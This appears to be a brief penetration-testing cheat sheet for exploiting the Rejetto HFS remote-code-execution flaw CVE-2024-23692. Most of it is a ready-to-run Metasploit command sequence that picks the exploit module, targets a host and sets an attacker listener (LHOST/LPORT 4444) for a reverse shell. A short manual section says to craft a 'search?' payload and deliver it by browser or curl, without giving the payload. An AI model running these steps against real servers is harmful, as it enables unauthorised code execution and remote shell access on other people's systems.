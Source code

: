 # Rejetto HFS Exploitation (CVE-2024-23692)

## Metasploit

use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS <TARGET_IP>
set RPORT 80
set LHOST <KALI_IP>
set LPORT 4444
run

Manual Exploit
Craft search? RCE payload

Deliver via browser or curl
